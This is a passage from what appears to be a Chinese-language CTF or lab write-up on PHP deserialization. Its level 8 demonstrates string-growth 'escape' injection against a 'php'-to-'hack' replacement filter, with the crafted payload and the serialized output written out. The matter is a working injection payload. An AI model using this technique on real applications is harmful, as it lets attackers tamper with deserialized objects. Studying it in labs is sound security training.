 ```php
echo serialize($p);
//大写S
//O:3:"you":2:{S:9:"\00you\00body";O:2:"my":1:{s:4:"name";s:6:"myname";}S:8:"\00you\00pro";s:8:"yourname";}
?>
```

**level8 反序列化增逃逸**

```php
<?php
highlight_file(__FILE__);
function filter($name){
    $safe=array("flag","php");
    $name=str_replace($safe,"hack",$name);
    return $name;
}
class test{
    var $user;
    var $pass='daydream';
    function __construct($user){
        $this->user=$user;
    }
}
$a=new test('phpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphp";s:4:"pass";s:8:"escaping";}');
//$a=new test('1');  O:4:"test":2:{s:4:"user";s:1:"1";s:4:"pass";s:8:"daydream";}
//逃逸内容：
//";s:4:"pass";s:8:"escaping";}
//计算需要链：
//phpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphp";s:4:"pass";s:8:"escaping";}
$param=serialize($a);
echo $param,"\n";

$profile=unserialize(filter($param));
echo $profile->pass,"\n";
if ($profile->pass=='escaping'){
    echo 1;
}
?>
```

```
O:4:"test":2:{s:4:"user";s:116:"phpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphp";s:4:"pass";s:8:"escaping";}";s:4:"pass";s:8:"daydream";}
```

![image-20220212192454775](./pic/image-20220212192454775.png)
